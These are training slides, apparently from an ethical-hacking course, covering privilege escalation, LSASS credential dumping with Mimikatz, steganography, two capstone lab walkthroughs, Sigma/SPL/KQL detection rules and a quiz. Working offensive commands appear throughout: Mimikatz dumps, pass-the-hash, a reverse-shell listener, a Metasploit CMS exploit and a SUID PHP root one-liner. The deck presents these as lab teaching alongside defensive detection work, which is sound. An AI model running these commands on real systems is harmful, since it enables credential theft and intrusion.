Lab 4 — Dump the Credentials from Memory
As SYSTEM, pull the plaintext passwords, hashes and tickets out of LSASS — and generate the Sysmon 10 evidence you will detect in Lab 8.
With the SYSTEM shell from Lab 3, run Mimikatz against LSASS and harvest every logged-on credential. Then take one of them and prove it works on another host — the "one box becomes the network" moment. This also creates the LSASS-access evidence for the detection lab.
WIN10-TGT01 as SYSTEM (or the DC via a domain admin). Lab-only credentials. If Defender quarantines Mimikatz, that is the SOC flip working — use the instructor's excluded copy for the demo.
-
Dump LSASS.
🟢 On the victim (target)
mimikatz.exe privilege::debug sekurlsa::logonpasswordsprivilege::debug Privilege '20' OK sekurlsa::logonpasswords Authentication Id : 0 ; 995213 User Name : m.said * Username : m.said * NTLM : e19ccf75ee54e06b06a5907af13cef42 * Password : Autumn2025! (a domain credential, straight from memory)Cleartext + hash from memory — no cracking needed.✓ Verification
- Per logged-on session: username, NTLM hash, and often a cleartext password
-
Dump the local SAM and tickets too.
🟢 On the victim (target)
lsadump::sam sekurlsa::tickets /export✓ Verification
- Local SAM hashes and exported Kerberos tickets saved
-
Reuse a credential on another host (the payoff).
🔴 On your Kali (attacker)
nxc smb 192.168.56.20 -u m.said -H e19ccf75ee54e06b06a5907af13cef42 # or the plaintext with evil-winrm / psexec -> a shell on the NEXT box✓ Verification
- A dumped credential authenticates to a second host — lateral movement proven
- Sysmon 10 (LSASS access) evidence saved for Lab 8
Network credentials from one host's memory, and proof they open the next door. And the single most detectable action of the day — opening a handle to LSASS — which is exactly the rule you write in Lab 8.
Break — 15 Minutes
Windows → SYSTEM done, and you've pulled credentials out of LSASS. Next: hide and find data, then the full-chain capstones.
Break — 15 Minutes
Press start when the break begins.
Steganography (hiding and finding data), then the two capstone machines — recon → exploit → privesc end to end — and finally the detection rule and the engagement report.
Steganography — Hiding Data in Plain Sight
The Covering-Tracks skill: concealing data inside images, audio and text so nothing looks wrong. CEH view — types, techniques, abuse and steganalysis — with Lab 5 as the practical.
Steganography lives in the Covering Tracks stage of the attack lifecycle. Attackers hide malware, stolen data and C2 traffic inside ordinary media so nothing looks wrong — no encrypted blob to flag, just a normal-looking image. Real families (Stegoloader, Duqu, Lokibot, Invoke-PSImage) have shipped payloads inside images. For the exam and the job you must know how it works, how it's abused, and how it's detected.
Steganography hides the existence of a message; cryptography hides its content. Crypto is a locked safe — everyone sees a safe. Stego is invisible ink — the page looks blank, no one suspects a message at all. Strong operators use both: encrypt, then hide the ciphertext.
Steganography vs Cryptography
| Steganography | Cryptography | |
|---|---|---|
| Goal | Hide that a message exists | Hide what the message says |
| Visible? | Carrier looks normal | Obvious ciphertext |
| Broken when | Hidden data is detected (steganalysis) | Key found / cipher cracked |
| Carrier | Image, audio, video, text, network | Any data |
Types of steganography (CEH)
Image (most common — LSB, DCT) · Audio (LSB, phase/echo, spectrogram) · Video (frames + audio) · Document / Text (formatting, fonts, invisible chars) · Whitespace (trailing spaces/tabs — SNOW) · Folder · Web / HTML · Spam / Email · Network / DNS (covert channels, e.g. PacketWhisper).
Image
Image (most common). LSB in PNG/BMP pixels, or DCT coefficients in JPEG. Tools: steghide, zsteg, outguess, OpenStego.
Audio
Audio. LSB in samples, phase/echo hiding, or an image drawn into the spectrogram (open in Sonic Visualiser). MP3Stego for MP3.
Video
Video. Combines image (per frame) and audio channels — huge capacity, harder to inspect frame by frame.
Text
Text / document. Trailing whitespace (SNOW), zero-width characters, font/format tricks — invisible in a normal editor.
Network
Network. Covert channels in protocol fields or DNS queries (e.g. PacketWhisper) — data leaves without an obvious file.
How it works — the core techniques
Every pixel byte ends in a least-significant bit that barely changes the colour. Overwrite those LSBs with your message bits — the image looks identical to the eye. The #1 technique (PNG/BMP/WAV).
pixel byte 1 1 0 0 1 0 1 0 # original
hide bit 1 1 1 0 0 1 0 1 1 # only the last bit changes -> invisibleHide data like a digital watermark tied to the image's luminance — more robust to compression than raw LSB.
Embed in the frequency coefficients used by JPEG compression instead of raw pixels — survives JPEG and resists simple LSB checks. This is what steghide, outguess and JSteg use.
Spread-spectrum scatters bits across the carrier like noise. For text, tools like SNOW encode data in trailing whitespace — invisible in any editor.
Payload delivery: a dropper pulls a PNG and extracts the real malware from its pixels (defeats signature scanning). Exfiltration: stolen data hidden inside an image uploaded to a normal site. C2: commands hidden in images posted to image hosts / social media. Covering tracks: hide tools and output so forensics finds nothing unusual.
Malware such as Lokibot and Stegoloader hid code inside images to slip past AV; APT tooling (Duqu) did the same. In Lab 5 you run the analyst side end to end on the Cicada 3301 chain — audio spectrogram → QR → base64 → steghide → outguess → book cipher — using most of the toolkit below.
Detection — Steganalysis
Goal: steganalysis proves hidden data exists — recovering it is a bonus. Red flags: file larger than expected, high entropy, palette/colour anomalies, known tool headers. Methods: statistical (chi-square, histogram/RS), visual (LSB planes), structural. CEH steganalysis attacks: stego-only, known-cover, known-message, known-stego, chosen-stego, chosen-message.
Tools an analyst uses
OpenStego (image + watermarking), Steghide (JPG/BMP/WAV, blowfish-encrypted, pseudo-random placement), OpenPuff (image/audio/video, splits across files), SNOW (whitespace/text), QuickStego, S-Tools, MP3Stego, gifshuffle.
file s.jpg ; strings -n 8 s.jpg ; binwalk -e s.jpg ; exiftool s.jpg # always first
steghide extract -sf s.jpg -p PASS # known passphrase
stegseek s.jpg rockyou.txt # brute-force the steghide passphrase
zsteg -a s.png # PNG/BMP LSB
outguess -r s.jpg out.txt # JPG (older CTFs / Cicada)
stegdetect s.jpg # detect JPG stego (JSteg/outguess/F5)Go to Lab 5 — Cicada 3301 and peel every layer. On the capstone boxes, treat any odd image or audio as a possible carrier.
1. Stego hides existence; crypto hides content — combine them. 2. LSB (spatial) and DCT (JPEG) are the core techniques. 3. Attackers hide malware, exfil and C2 in media. 4. Steganalysis detects, mostly via statistics + anomalies. 5. Triage first (file/strings/binwalk/exiftool), then the right carrier tool.
Q1. Difference between stego and crypto? Q2. Which technique hides data in JPEG frequency coefficients? Q3. Name one red flag a steganalyst looks for. (A1: hides existence vs content. A2: transform-domain / DCT. A3: size/entropy anomaly or a known tool header.)
Lab 5 — Cicada 3301, a Layered Stego Chain
Walk a full stego+crypto chain: audio spectrogram, QR, base64, steghide, outguess, and a book cipher — each answer the key to the next.
One challenge that chains six techniques: audio → QR → base64 → steghide → outguess → book cipher. Every answer is the key to the next step. Read it as a method: what you do, why, and what the screen shows. Everything runs on your own analysis box.
1 — Analyze the audio (spectrogram → QR → link)
The zip contains an audio file. Sound stego usually hides an image in the frequencies, so open it in Sonic Visualiser and add a Spectrogram layer — a QR code appears. Decode the QR (any scanner, or zbarimg); it points to a Pastebin holding a base64 passphrase and key.
sonic-visualiser hidden.wav # GUI: Layer -> Add Spectrogram
zbarimg qr.png # -> https://pastebin.com/wphPq0Aa


2 — Decode the passphrase (base64)
The passphrase and key look encoded, not encrypted. A quick base64 -d (or CyberChef → From Base64) reveals the passphrase Ju5T_4_P455phr453! — keep it, it unlocks the next layer.
echo '' | base64 -d # -> Ju5T_4_P455phr453! 

3 — Extract from the image (steghide)
Now there is an image plus a passphrase — the classic steghide pairing. -sf is the carrier file, -p the passphrase. It writes out a text file that contains the next link (an imgur album).
exiftool clue.jpg
steghide extract -sf clue.jpg -p 'Ju5T_4_P455phr453!'
cat *.txt # -> https://imgur.com/a/c0ZSZga

4 — Find the hidden file (outguess)
The imgur image resists steghide. The original Cicada puzzle used outguess, so try it here — download the image without altering its bytes, then outguess -r recovers a file containing a long hash. (strings/cat on the image also surfaces it.)
outguess -r cicada.jpg out.txt
cat out.txt # -> a long hash string


5 — Identify + crack the hash, then the book cipher
hash-identifier flags it as SHA-512. Cracking it (john/hashcat or an online cracker) yields a Pastebin of book lines. Solve the book cipher: the first number is the line, the second is the character (spaces not counted) — the letters spell a URL (assume the first five are https) → a bit.ly link → the song "The Instar Emergence".
hash-identifier # -> most likely SHA-512
# crack -> pastebin of book lines
# book cipher: line:char (spaces not counted) -> a URL


One solve chaining six techniques — audio-stego, QR, base64, steghide, outguess, book cipher. That layer-by-layer discipline is the whole of stego: each answer unlocks the next tool.
Screenshots & walkthrough: community write-up of the Cicada 3301 room.
The Capstone — The Whole Chain, One Machine
Two fresh machines, no walkthrough held open. Run everything the diploma taught — recon to root — and write it up.
Every session so far taught one phase. The capstone is where they become one continuous engagement: you get an IP and nothing else, and you take it to root while documenting every step. This is exactly a junior penetration test — and it is the deliverable that proves the diploma's offensive half.
1 · RECON + SCAN (S2/S3)Map the target
nmap -sC -sV -p- for ports, versions and default-script findings. This is Sessions 2–3 — you already own it. Every capstone starts here.
2 · ENUMERATEGo deep on what you found
Web: directory brute-force (gobuster), read page source, DNS/vhost enum. Media: stego. Both capstones hide the way-in here — a /secret directory, an image with a credential, a hidden subdomain.
3 · WAY IN (S4)Vuln or credential
A matched CVE (a vulnerable CMS), or a credential you recovered (from stego or a dump). DoubleTrouble: creds from an image → an upload page. Blackpearl: a Navigate CMS exploit.
4 · SHELL (S5)Get code execution
Upload a reverse shell, or fire the exploit, and catch it. You land as a low-priv web user (www-data) — the foothold. Reverse shell, upgrade the TTY: pure Session 5.
5 · ESCALATE (S6)Become root
Run the loop: linPEAS → a SUID/GTFOBins or sudo/cron misconfig → root. Blackpearl: a SUID PHP binary via GTFOBins. DoubleTrouble: a SUID/kernel path. Today's Half A, on a live target.
6 · DOCUMENTWrite the engagement report
Every step, with proof and a remediation line. This is Lab 9 — and it is what a client actually pays for. A root shell with no report is worth far less than a clear report.
You get an IP; you get root; you write it up. Work in teams, rotate the keyboard, and keep notes as you go — the report is graded, not the speed. The next two labs are the two machines.
Lab 6 — Capstone A: DoubleTrouble
Web to root on a fresh box: enumerate, crack a stego image for credentials, upload a shell, then escalate.
DoubleTrouble runs the classic web-to-root chain, with a stego twist in the middle — exactly why you drilled stegseek in Lab 5. Work the phases; only reveal the next when you are stuck.
The DoubleTrouble VM you imported, host-only, snapshotted. Authorised because you deployed it. Do not point these steps at anything else.
-
1–2 · Recon → enumerate.
🟢 On the victim (target)
nmap -sC -sV -p-gobuster dir -u http:// -w /usr/share/wordlists/dirb/common.txt # find a /secret directory with an image ✓ Verification
- Open web ports, and a hidden directory containing an image
-
3 · Stego → credentials.
🟢 On the victim (target)
wget http:///secret/doubletrouble.jpg stegseek doubletrouble.jpg /usr/share/wordlists/rockyou.txt cat doubletrouble.jpg.out # => credentials ✓ Verification
- stegseek cracks the image and yields a username:password
-
4 · Log in → upload a reverse shell.
🔴 On your Kali (attacker)
# log in to the app with the recovered creds # find the file-upload endpoint, upload a PHP reverse shell # start a listener and trigger it: nc -lvnp 443✓ Verification
- You catch a reverse shell as the web user (e.g. www-data)
-
5 · Escalate → root.
🟢 On the victim (target)
/tmp/linpeas.sh | tee out # find the privesc vector (SUID / sudo / kernel) and abuse it id # uid=0(root)stegseek doubletrouble.jpg rockyou.txt [i] Found passphrase; extracting -> creds # login -> upload shell -> catch www-data@doubletrouble:/$ id uid=33(www-data) ./linpeas.sh | grep -i suid SUID/kernel vector found -> exploit -> root id uid=0(root)Recon → stego → upload → privesc — the whole diploma in one box.✓ Verification
- id = root; grab /root/root.txt
- Engagement report: full chain documented with proof at each phase
A complete, unaided compromise of a machine you had never seen — and the notes for its engagement report. This is the junior-pentest job.
Lab 7 — Capstone B: Blackpearl
A different route to root: DNS enumeration, a vulnerable CMS via Metasploit, then a SUID binary through GTFOBins.
DoubleTrouble was web+stego+SUID. Blackpearl swaps in DNS/vhost enumeration and a CMS exploit, and escalates through a SUID PHP binary — so you prove the methodology transfers, not just one path. Same six phases, different findings.
The Blackpearl VM you imported, host-only, snapshotted. Authorised because you deployed it.
-
1–2 · Recon → DNS enumeration.
🟢 On the victim (target)
nmap -sC -sV -p-gobuster dir -u http:// -w common.txt # find /secret # read the page source of /secret -> a domain name echo " blackpearl.tld" | sudo tee -a /etc/hosts gobuster dir -u http://blackpearl.tld -w common.txt # new vhost, new dirs ✓ Verification
- A hidden domain revealed in page source; added to /etc/hosts; a new directory set appears (Navigate CMS)
-
3–4 · CMS exploit → shell.
🔴 On your Kali (attacker)
searchsploit navigate cms msfconsole -q use exploit/multi/http/navigate_cms_rce # or the matched module set RHOSTS blackpearl.tld ; exploit # => shell as www-data✓ Verification
- A Metasploit module for the CMS gives a shell as www-data
-
5 · Escalate → root via SUID PHP (GTFOBins).
🟢 On the victim (target)
/tmp/linpeas.sh | grep -i suid # /usr/bin/php has the SUID bit -> gtfobins.github.io/gtfobins/php/#suid php -r "pcntl_exec('/bin/sh', ['-p']);" id # euid=0(root)gobuster dir -u http://blackpearl.tld -w common.txt /navigate (Navigate CMS) msf> use exploit/.../navigate_cms_rce ; exploit [*] shell as www-data ./linpeas.sh | grep -i suid -rwsr-xr-x /usr/bin/php <-- SUID php php -r "pcntl_exec('/bin/sh',['-p']);" id uid=33(www-data) euid=0(root)DNS → CMS → SUID PHP — a different chain, the same skills.✓ Verification
- SUID PHP + the GTFOBins one-liner gives a root shell
-
6 · Document.
🟢 On the victim (target)
cat /root/root.txt # write up both machines in the engagement report (Lab 9)✓ Verification
- Root on the second capstone; both chains recorded for the report
A second, different full chain — proof the methodology, not a memorised path, is what gets you root. Two machines, two routes, one skill set.
Every Escalation Today, and the Log It Left
You escalated all afternoon. Here is the other side — the handful of events that betray a user becoming root or SYSTEM.
A user does not normally gain new privileges, install services, or read LSASS. Each of those is rare and high-signal — which is why privilege escalation, done without care, lights up a SOC. Learn the pairs and you can catch what you just did.
T1134 · TOKEN → 4672New SYSTEM rights
4672 (special privileges assigned to new logon) for an account that has no business holding SeDebug/SeTcb. Correlate a low-priv user's process suddenly running with SYSTEM privileges. Rule: 4672 where the account is not a known service/admin.
T1543.003 · SERVICE → 7045A new service
7045 (a service was installed) with an unusual name or a binary in a user-writable path (Temp, a user profile). Legit software installs services too — the tell is where the binary lives and who installed it. Rule: 7045 + ImagePath in a writable/temp location.
T1003.001 · LSASS → Sysmon 10The crown-jewel alert
Sysmon 10 (ProcessAccess) where TargetImage is lsass.exe and the GrantedAccess mask is a read/dump pattern (0x1010/0x1410). Almost nothing legitimately opens LSASS with those rights. This is the single most valuable rule you write today.
T1548.001 · LINUX → auditd/EDRUID 1000 becomes 0
A shell spawned by a SUID binary, a setuid(0) transition, or a cron job spawning an unexpected child. auditd rules on execve + effective-UID change catch the GTFOBins one-liners. Rule: process with euid 0 whose parent is a normal-user SUID binary.
Elevation is rare, so it is detectable. The best single rule of the day is LSASS access (Sysmon 10) — it catches the credential theft that turns one host into the network. That is your Lab 8.
Lab 8 — Detect the Escalation You Just Ran
Become the SOC analyst who catches privilege escalation — from the 4672 / 7045 / Sysmon 10 evidence your own labs generated.
You generated the evidence in Labs 3–4: a new SYSTEM logon (4672), maybe a new service (7045), and — the big one — a process opening LSASS (Sysmon 10). Read it as a defender and write one working detection rule. The LSASS rule in particular is a real, high-value SOC detection.
Have your saved Sysmon/Security logs open. No lab? The fallbacks (saved/lab4_lsass_sysmon.evtx) contain the exact events.
The worked rule — Sigma (LSASS access = Mimikatz)
The highest-value detection: a process opening a handle to lsass.exe with a credential-dumping access mask. Legit software almost never does this.
title: LSASS Memory Access - Possible Credential Dumping
logsource:
category: process_access
product: windows # Sysmon Event ID 10
detection:
selection:
TargetImage|endswith: '\lsass.exe'
GrantedAccess:
- '0x1010'
- '0x1410'
- '0x143a'
filter_known:
SourceImage|endswith:
- '\wininit.exe'
- '\Microsoft.Windows.Defender\MsMpEng.exe'
condition: selection and not filter_known
tags: [attack.credential_access, attack.t1003.001]
level: highNow you write one — pick your platform
Splunk (SPL) — complete this skeleton
index=win (EventCode=10 TargetImage="*\lsass.exe")
OR EventCode=4672 OR EventCode=7045
| search GrantedAccess IN ("0x1010","0x1410")
| stats count by Computer, SourceImage, _time
| where ____ <-- exclude the known-good SourceImagesMicrosoft Sentinel (KQL) — complete this skeleton
DeviceEvents
| where ActionType == "OpenProcessApiCall"
| where FileName =~ "lsass.exe"
| where InitiatingProcessFileName !in~ ("wininit.exe","MsMpEng.exe")
| where ____ <-- your GrantedAccess / rarity condition-
Read the evidence and name the technique from the logs alone.
✓ Verification
- You identified: the source process, the target (lsass.exe / a new service), and the access mask
-
Write ONE complete, working rule (Sigma / SPL / KQL) for LSASS access, service install, or the 4672 anomaly.
✓ Verification
- The rule keys on the behaviour (who touched LSASS / installed a service), not a tool name
- It excludes the known-good sources so real admin activity does not drown it
-
Test it against a benign baseline — would antivirus or a backup agent trip it? Tune the filter.
✓ Verification
- You can state one false-positive source and how your rule avoids it
One working privilege-escalation / credential-theft detection rule, from evidence you generated by escalating. The honest close: EDR flags Mimikatz and potato exploits in near-real-time — the modern attacker's problem is not getting SYSTEM, it is doing it quietly, which is Session 7.
Lab 9 — Write the Engagement Report
The deliverable that proves the whole offensive half: the full chain on your capstone, with proof and remediation. This is what a client pays for.
A root shell is worth little to a client without a report that tells them what you did, how, what it means, and how to fix it. This is the capstone of the diploma's offensive half — and the single most job-relevant artefact you produce. Write it as if handing it to a paying client.
The structure — keep it to these sections
| Section | What goes in it |
|---|---|
| Executive summary | One paragraph a manager can read: was the box compromised, how bad, the single most important fix. No jargon. |
| Scope & authorisation | The exact target(s), the dates, and the statement that everything stayed in the authorised host-only lab. |
| Methodology | The phases you ran: recon → scan → enumerate → way in → shell → privesc. The kill chain, applied. |
| Findings (per issue) | Title, severity, evidence (command + output/screenshot), impact, and a remediation line. One block per vulnerability. |
| Proof of compromise | id/whoami as root/SYSTEM, the flags, and the credentials dumped (redacted). |
| Remediation summary | The fixes, ordered by priority — what to do Monday morning. |
Record the capstone in your cumulative Team Report — it carries forward from S2–S5 and now closes the loop from recon to root, exportable to HTML/PDF. Grade: pass = every phase with proof + a remediation per finding; needs-review = a pile of screenshots with no narrative or fixes.
Anyone can get root; a professional can explain it and fix it. The report — severity, evidence, remediation — is the job. This is the deliverable that completes the offensive half of your diploma.
System Hacking Complete. What's Next.
You have run the full offensive kill chain end to end. Here is where the diploma goes from here.
Recon (S2), scan & enumerate (S3), turn that into a vulnerability and a credential (S4), exploit it to a shell (S5), and escalate to full control and document it (S6). That is the complete System Hacking arc — the core of ethical hacking, and the heart of the CEH exam. You can take an IP to root and write it up.
Every session you also wrote a detection: port-scan (S3), credential-attack (S4), reverse-shell (S5), privesc/LSASS (S6). You can sit on either side of the wire — which is exactly the SOC-analyst career this diploma's students are aiming at.
The rest of the diploma widens the surface: malware (S7), web application hacking & SQLi (S8), sniffing / MITM / social engineering (S9), and evasion / wireless / emerging tech (S10). Each is a new attack surface on the same methodology you now own.
One methodology, every target. Recon → scan → access → escalate → document does not change — only the surface does. You have proven it on Linux, Windows and a full capstone. The rest is breadth.
Knowledge Check
Six questions. Answer before you reveal — each explains the "why," not just the letter.
Q1What is the single most important activity in privilege escalation?
- Running a kernel exploit first
- Memorising every GTFOBins entry
- Thorough enumeration — finding the one misconfiguration to abuse
- Trying every exploit until one works
Q2Why is a SUID binary owned by root dangerous?
- It stores the root password
- It runs as its owner (root) no matter who executes it — GTFOBins turns that into a root shell
- It disables SELinux
- It can only be read by root
Q3A Windows service account holds SeImpersonatePrivilege. Why is that almost game over?
- It can read the SAM directly
- It disables Defender
- A potato exploit coerces a SYSTEM token it can then impersonate — giving SYSTEM
- It grants domain admin automatically
Q4Why is dumping LSASS with Mimikatz so valuable to an attacker?
- LSASS caches logged-on users' passwords, hashes and tickets — often a domain admin's
- It disables the firewall
- It is undetectable
- It gives kernel code execution
Q5What is the single highest-value SOC detection for the credential theft in this session?
- A failed logon (4625)
- A DNS query
- A process opening lsass.exe with a dump access mask (Sysmon 10)
- An outbound connection on 443
Q6Why does the engagement report matter as much as getting root?
- It is required to launch Metasploit
- It is what a client pays for — severity, evidence and remediation, not just a shell
- It automatically patches the findings
- It is only needed for compliance
Practise Privilege Escalation — Free
A free path on TryHackMe that drills exactly today's Linux and Windows escalation, then a capstone-style box.
The local lab and the two capstones are the spine — these rooms are for repetition. Ordered by what to do first; the two PrivEsc rooms are the direct drills for Half A and Half B.
Linux then Windows privilege escalation, exactly as taught — then a full-chain box to rehearse the capstone.
Half A arena: one range that chains every Linux vector you learned — SUID, sudo, cron, capabilities, PATH, NFS, kernel and credential looting. Do this first to make the enumerate→identify→abuse loop automatic.
Half B arena: service misconfigs, token abuse, stored credentials, quick wins and vulnerable software on one range. Do this to drill every Windows vector back to back.
- Linux PrivEscFree
Half A, drilled: SUID, sudo/GTFOBins, cron, PATH, capabilities and kernel — every Linux vector on one box. Do this first; it is Lab 1–2 with more paths.
More SUID/sudo/cron practice with a clear methodology. Do this to make the enumeration loop automatic.
- BlasterFree
Windows exploitation into a manual privilege escalation (a scheduled-task/registry route). Do this to rehearse Half B end to end.
- KenobiFree
A full chain — SMB/FTP recon → ProFTPD shell → SUID privesc. Do this last as a capstone rehearsal before DoubleTrouble/Blackpearl.
Every room is an authorised target you deploy for yourself. Point today's privesc techniques at anything you were not given and it is a crime — the same authorisation line that has run through every session.
Takeaways & Homework
Six lines to keep, and the work that finishes the offensive half of your diploma.
1. Getting in is access; getting root is control. 2. Enumeration is 90% of privesc — run the loop, don't guess. 3. If root runs something you can change, you are root (SUID/sudo/cron). 4. SeImpersonate is SYSTEM with an extra step. 5. SYSTEM on one box is credentials for the network (LSASS/Mimikatz). 6. Anyone can get root; a professional writes the report.
You can take an IP to root on Linux and Windows, loot it, run the whole chain on a fresh machine, and detect every step. The offensive core of the diploma is complete.
Homework
1. Finish both capstones (DoubleTrouble + Blackpearl) and submit the engagement report for at least one — every section, with remediation. 2. Complete the Linux PrivEsc room and list every vector you used. 3. Write your Lab 8 detection rule (the LSASS one is best) and name one false-positive source it survives. 4. One paragraph: for a host where you got SYSTEM, what would you do next to reach the domain, and how would a SOC catch it?
Your completed engagement report and the credentials you dumped — Session 7 (Malware Threats) builds and analyses the payloads that establish and hide footholds like the ones you created today.
Navigate with ← → arrow keys · Home / End to jump